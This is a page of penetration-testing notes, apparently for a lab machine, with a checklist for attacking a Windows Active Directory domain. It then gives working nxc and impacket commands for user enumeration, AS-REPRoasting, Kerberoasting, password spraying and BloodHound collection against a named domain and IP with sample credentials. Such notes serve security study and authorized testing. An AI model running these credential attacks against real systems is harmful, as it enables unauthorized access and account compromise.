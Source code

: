 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# WIP

## No Creds

<details>

<summary>HTTP(S)</summary>

* [ ] [Dirbust](../web/dirbusting.md) HTTP(S) ports with
  * [ ] [Directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) plus server-specific extensions
  * [ ] [File list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt) plus server-specific extensions

</details>

<details>

<summary><a href="../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] Null session
* [ ] Guest session
* [ ] Anonymous session

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Check for valid users ([kerbrute](https://x7331.gitbook.io/boxes/tl-dr/active-directory/ad-tools/kerbrute))
  * [ ] BFA with `user:user`
* [ ] [AS-REPRoast](../tl-dr/active-directory/attacks/as-reproasting.md)
  * [ ] Crack hashes

</details>

## With Creds&#x20;

### Remote Access

<details>

<summary>User Context</summary>

* [ ] [SMB Enumeration](../services/shares/smb-139-445.md#usage)
* [ ] Check for Local Access (WinRM, RDP, SSH)
* [ ] MSSQL
  * [ ] Links
  * [ ] Users
  * [ ] xp\_cmdshell

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Create a domain user list ([nxc](../tl-dr/active-directory/ad-tools/netexec.md#smb))
  * [ ] Password spray with `user:user`
* [ ] [Kerberoast](../tl-dr/active-directory/attacks/kerberoasting.md)
  * [ ] Crack hashes
* [ ] Collect [domain data](../tl-dr/active-directory/ad-tools/bloodhound.md#ingestors) (RustHound-CE, bloodhound-python)
  * [ ] Analyze data and note potential targets and attack vectors

</details>

### Local Access

<details>

<summary>User Context</summary>

* [ ] Check [groups](../tl-dr/infra/os/windows/privilege-escalation/groups/)
* [ ] Check [privileges](../tl-dr/infra/os/windows/privilege-escalation/privileges/)
  * [ ] Token elevation

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Collect [domain data](../tl-dr/active-directory/ad-tools/bloodhound.md#ingestors) (SharpHound)
  * [ ] Analyze data and note potential targets and attack vectors

</details>



## Domain User

1. Create a userlist and AS-REPRoast, Kerberoast, PassSpray

{% code overflow="wrap" %}
```bash
# Domain users
nxc smb hokka -u info -p info --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users

# AS-REPRoast
$ impacket-GetNPUsers hokkaido-aerospace.com/ -dc-ip 192.168.155.40 -no-pass -usersfile domain_users

# Kerberoast
impacket-GetUserSPNs -request -dc-ip hokka hokkaido-aerospace.com/info:info

# Password Spray
nxc smb hokka -u domain_users -p domain_users --continue-on-success | grep +
```
{% endcode %}

2. Enumerate SMB shares

```bash
nxc smb hokka -u info -p info --shares
```

3. Check for remote access

```bash
nxc winrm hokka -u info -p info
nxc rdp hokka -u info -p info
```

4. Collect domain data

{% code overflow="wrap" %}
```bash
$ nxc ldap dc.hokkaido-aerospace.com -u discovery -p Start123! --bloodhound -c All --dns-server 192.168.155.40
```
{% endcode %}
